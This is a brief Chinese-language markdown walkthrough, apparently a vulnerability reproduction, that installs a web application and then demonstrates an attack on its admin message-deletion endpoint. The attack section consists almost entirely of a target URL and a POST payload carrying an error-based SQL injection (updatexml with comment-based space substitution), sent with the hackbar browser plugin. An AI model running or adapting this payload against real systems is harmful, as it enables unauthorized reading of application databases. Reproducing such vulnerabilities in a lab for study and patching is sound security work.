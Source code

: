 
# 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)

![image]({path}/4.png)



## 攻击实战


使用hackbar插件在浏览器输入
```
http://192.168.1.170:7777/?m=message&s=admin_message_list_delbox&rid=1
```

```
deid[0]=1/**/or/**/1=updatexml(1,concat(0x5c,(select/**/md5(123)/**/limit/**/1)),1)&recover=1#
```


![image]({path}/5.png)

